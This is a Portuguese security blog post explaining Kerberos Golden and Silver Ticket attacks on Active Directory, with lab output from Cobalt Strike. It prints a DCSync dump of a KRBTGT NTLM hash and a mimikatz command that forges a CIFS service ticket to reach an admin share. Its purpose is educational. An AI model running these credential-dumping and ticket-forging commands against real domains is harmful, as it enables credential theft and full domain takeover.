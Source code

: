 ```yaml
---
layout: post
title: Golden & Silver
---
```


Como mostrado no [post anterior](https://tuxtrack.github.io/kerberos101/), em meio ao processo de autenticação de um usuário/computador em um ambiente Microsoft Active Directory utilizando o protocolo Kerberos, uma troca de informações ocorre para validar a conta em questão. 

![](http://127.0.0.1:4000/images/ges/kerb.png)

Ao ocorrer a solicitação de acesso a algum recurso existente no domínio utilizando o protocolo Kerberos, automaticamente será solicitado ao KDC um ticket do tipo TGT (Ticket-Granting Ticket). Caso a conta seja válida, o KDC retornará o ticket assinado/criptografado pela conta KRBTGT. 

>KRBTGT is also the security principal name used by the KDC for a Windows Server domain, as specified by RFC 4120. The KRBTGT account is the entity for the KRBTGT security principal, and it is created automatically when a new domain is created. [MS Docs](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2012-R2-and-2012/dn745899(v=ws.11))

![](http://127.0.0.1:4000/images/ges/krbtgt.png)

### Golden Tickets

O problema de segurança ocorre quando o hash da conta KRBTGT é comprometido. Nesse momento, o atacante pode forjar TGT's, assinando-os com o hash obtido e se utilizar de qualquer conta presente no domínio (fojada) empoderando-se dos privilégios concedidos as mesmas ou adicionando novos privilégios alterando a estrutura do ticket.

![](http://127.0.0.1:4000/images/ges/gt.png)

* Forging Golden Tickets

O ataque em questão foi apresentado por Benjamin Delpy, mais conhecido como [@gentilkiwi](https://twitter.com/gentilkiwi). Ele é o criador das famosas ferramentas [Mimikatz](https://github.com/gentilkiwi/mimikatz) e [Kekeo](https://github.com/gentilkiwi/kekeo), amplamente utilizadas por todos no mundo offsec.

Para efeitos de demonstração, foi utilizado a ferramenta Mimikatz para a execução do ataque. Existem outras ferramentas que podem auxiliar na tarefa, como o projeto [Rubeos](https://github.com/GhostPack/Rubeus), presente na toolkit [GhostPack](https://github.com/GhostPack/), projeto da SpecterOps criado para portar a maioria das ferramentas que antes eram escritas em Powershell para C#. Após as [melhorias de seguranças aplicadas a partir da versão 5 do Powershell](https://devblogs.microsoft.com/powershell/powershell-the-blue-team/), muitos ataques começaram a ser bloqueados, causando desconforto para os analistas. Mas isso é história para outro blog post. 

Para que o Mimikatz possa executar o ataque, são necessários alguns bits de informação:

User: Usuário no qual o atacante deseja obter iguais privilégios.

Domain Name: FQDN [(Fully Qualified Domain Name)](https://en.wikipedia.org/wiki/Fully_qualified_domain_name)

Domain SID: Domain SID 

KRBTGT NTLM Hash: Hash extraído do usuário KRBTGT.

Como mencionado, o atacante poderá alterar a estrutura do ticket, adicionando outras informações utilizando os parâmetros "/groups:" e "id", para fornecer informções sobre grupos (Grupos com poderes administrativos: 512,513,518,519,520 ) e RID's.

O processo de extração do hash da conta KRBTGT pode ser realizado de diversas formas, para mais informações, recomendo a leitura do blog post [Dumping Domain Password Hashes](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/).

Processo de obtenção do hash através de [DCSYNC Attack](https://adsecurity.org/?p=1729).

```powershell
beacon> dcsync hnr.local krbtgt
[*] Tasked beacon to run mimikatz's @lsadump::dcsync /domain:hnr.local /user:krbtgt command
[+] host called home, sent: 746570 bytes
[+] received output:
[DC] 'hnr.local' will be the domain
[DC] 'GOKU.hnr.local' will be the DC server
[DC] 'krbtgt' will be the user account
Object RDN           : krbtgt
** SAM ACCOUNT **
SAM Username         : KRBTGT  
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000202 ( ACCOUNTDISABLE NORMAL_ACCOUNT )
Account expiration   : 
Password last change : 11/02/2020 00:41:33
Object Security ID   : S-1-5-21-45967290-1955130809-1078885739-502
Object Relative ID   : 502
Credentials:
  Hash NTLM: 86db69b9000654a8a4d4b6abe6ed1553
```
Com as informações necessárias em mãos, a execução do ataque pode ser concluída.

![](http://127.0.0.1:4000/images/ges/mimi.png)

Com a execução do mimikatz, o ticket para o usuário ganderson foi forjado e submetido na sessão atual utilizando um ataque chamado Pass-The-Ticket, parametro "/ptt" (Devo criar um outro blog post mostrando como funciona o Pass-the-ticket e Over Pass the Hash). Agora, o atacante poderá acessar todos os recursos nos quais o usuário possui acesso utilizando o ticket forjado.

***

### Silver Tickets


Silver Tickets seguem a mesma ideia do Golden Ticket, porém é forjado um TGS (Service Ticket) em vez do TGT. Os tickets são criados utilizando a conta do computador ou conta de serviço do recurso que o atacante deseja acessar. Assim como no Gold Ticket, as informações sobre o usuário, grupo e etc, podem ser forjadas sem a necessidade de nenhuma troca de informação entre User Workstation e KDC.

![](http://127.0.0.1:4000/images/ges/st.png)

Por padrão as senhas das contas dos computadores são alteradas a cada 30 dias de modo aleatório. Logo, o hash da conta pode ser alterado em meio ao projeto, causando perda de acesso. Para contornar o "problema", é possível solicitar a informação sobre a máquina alvo. 

``` powershell
beacon> powerpick Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset
[*] Tasked beacon to run: Get-NetComputer -Name SQL | Select name, samaccounttype, pwdlastset (unmanaged)
[+] host called home, sent: 133715 bytes
[+] received output:

name  samaccounttype pwdlastset         
----  -------------- ----------         
SQL  MACHINE_ACCOUNT 12/02/2020 14:53:05
```

Caso um usuário tente acessar um recurso no qual o mesmo não possui autorização, a negação do acesso é automaticamente efetuada. Para fins de demonstração, foi solicitado o acesso ao serviço de compartilhamento por um usuário que propositalmente não possui privilégios para tal. 

```powershell
beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
Access is denied.
```

Após forjar o Silver Ticket para o serviço [CIFS](https://pt.wikipedia.org/wiki/Server_Message_Block), o acesso ao compartilhamento foi concedido.

Para forjar um Silver Ticket, algumas informações adicionais são necessárias: 

Taget: FQDN [(Fully Qualified Domain Name)](https://en.wikipedia.org/wiki/Fully_qualified_domain_name)

Services: Serviço no qual deseja obter acesso.

rc4: NTLM Hash do computador/serviço, usado para assinar os tickets de serviço.

```powershell
beacon> mimikatz kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt
[*] Tasked beacon to run mimikatz's kerberos::golden /domain:hnr.local /user:admin /sid:S-1-5-21-45967290-1955130809-1078885739 /target:SQL.hnr.local /service:CIFS /rc4:95e93eb10b58109a6b0227d8c821dbdd /ptt command
[+] host called home, sent: 998474 bytes
[+] received output:
User      : admin
Domain    : hnr.local (HNR)
SID       : S-1-5-21-45967290-1955130809-1078885739
User Id   : 500
Groups Id : *513 512 520 518 519 
ServiceKey: 95e93eb10b58109a6b0227d8c821dbdd - rc4_hmac_nt      
Service   : CIFS
Target    : SQL.hnr.local
Lifetime  : 01/03/2020 18:39:26 ; 27/02/2030 18:39:26 ; 27/02/2030 18:39:26
-> Ticket : ** Pass The Ticket **

 * PAC generated
 * PAC signed
 * EncTicketPart generated
 * EncTicketPart encrypted
 * KrbCred generated

Golden ticket for 'admin @ hnr.local' successfully submitted for current session

beacon> shell dir \\SQL.hnr.local\c$
[*] Tasked beacon to run: dir \\SQL.hnr.local\c$
[+] host called home, sent: 53 bytes
[+] received output:
 Volume in drive \\SQL.hnr.local\c$ has no label.
 Volume Serial Number is 04AB-790B

 Directory of \\SQL.hnr.local\c$

01/03/2020  11:09    <DIR>          HNRDOCS
15/09/2018  04:19    <DIR>          PerfLogs
12/02/2020  17:07    <DIR>          Program Files
12/02/2020  16:35    <DIR>          Program Files (x86)
12/02/2020  15:34    <DIR>          SQLServer2017Media
12/02/2020  15:53    <DIR>          Users
01/03/2020  18:11    <DIR>          Windows
               0 File(s)              0 bytes
               7 Dir(s)  47.061.692.416 bytes free

```

Como pode-se notar, após submeter o Silver Ticket na sessão o acesso ao compartilhamento foi permitido, demonstrando a perfeita execução do ataque.

Os intuitos dos posts é se fazer entender como funcionam os ataques. As ferramentas apresentadas são apenas meios para que possamos alcançar um objetivo. Espero que tenha conseguido passar com clareza todas as informações necessárias para o entendimento e sanar quaisquer dúvidas. Caso eu tenha pecado em algo, ou alguma informação não teve embasamento necessário para seu entendimento, por favor entre em contato comigo, ficarei extramente feliz em ajudar.

Até o próximo.!!!

##### Referências

Abusing Microsoft Kerberos: Sorry You Guys Don't Get It [https://www.youtube.com/watch?v=lJQn06QLwEw](https://www.youtube.com/watch?v=lJQn06QLwEw) 